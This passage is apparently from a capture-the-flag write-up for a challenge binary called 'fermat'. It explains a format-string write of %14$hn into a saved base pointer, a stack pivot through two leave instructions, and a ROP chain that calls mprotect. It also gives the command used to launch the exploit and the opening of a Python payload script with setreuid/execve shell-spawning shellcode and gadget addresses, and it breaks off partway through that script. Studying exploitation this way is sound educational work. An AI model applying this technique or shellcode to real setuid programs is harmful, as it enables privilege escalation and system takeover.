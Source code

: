 How? We have 7 characters.

The following input: `%14$hn` writes 0 in the two bytes starting at the address pointed by the 14th word after the format string.

In practice:
- Looking back at the image, the 14th word after the format string is at address `0xffffd588`;
- This address points to `0xffffd5a8`;
- So, our format string will write 0x0 into `0xffffd5a8` and `0xffffd5a9`
- Previously, `0xffffd5a8` contained value `0xffffd5c8`;
- After `printf()`, it will contain value `0xffff0000`.

Now, remember the `welcome()` function? Thanks to that function, we can write a huge payload into memory, and buffer will grow (in stack, so towards lower addresses), so that we can make the area now written in Saved BP (`0xffff0000`) pointing to our payload.

Now I needed to find a way to write that value into `ESP` and trigger the ROPChain.

The trick to trigger stack pivoting is using the two `leave` instruction in `dispatch` and `main`:
- The first `leave` moves `ESP` to current `EBP`, then copies our overwritten SBP into `EBP`;
- The second `leave` moves `ESP` to current `EBP` - **which we injected in the previous frame** - then pops the SBP into EBP, but this doesn't matter since ESP points to our payload now :)

I slightly modified this approach because of these instructions in `main`:

![AltText](/assets/images/icectffermat_4.JPG)

Following `leave`,
the value in memory pointed by `ecx - 4` is moved into `esp`. Luckily, we can control the content of `ecx`, since it is loaded in:
`mov ecx, DWORD PTR [ebp - 0x4]`, and `ebp` is already pointing to our fake stack.

The rest of the work has just been writing a ROPchain which didn't contain NULL bytes (that couldn't reside in `env`) -- but since the binary is statically linked, I have a whole load of ROP gadgets already linked to binary, found with `ropper` -- and carefully computing addresses inside and outside gdb. Here, the script to generate the payload, which I used in target machine with:

`USER=$(python exploit.py) ./fermat "%14\$hn"`

```
import struct

def p32(address):
  return struct.pack("I", address)

# To compute addresses to store args to mprotect
mprotect_base = 0xffff105c
# mprotect requires a page aligned boundary
stackpage_base = 0xffff1000
# setreuid(geteuid(), geteuid()) && execve("/bin//sh", NULL, NULL)
shellcode = "\x6a\x31\x58\x99\xcd\x80\x89\xc3\x89\xc1\x6a\x46"
shellcode += "\x58\xcd\x80\xb0\x0b\x52\x68\x6e\x2f\x73\x68\x68"
shellcode += "\x2f\x2f\x62\x69\x89\xe3\x89\xd1\xcd\x80"


movdpedx = 0x08055a2b # mov dword ptr [edx], eax; ret
xoreax = 0x08049743 # xor eax, eax; ret
inceax = 0x0807f1bf # inc eax; ret
popedx = 0x08073bda # pop edx; ret
```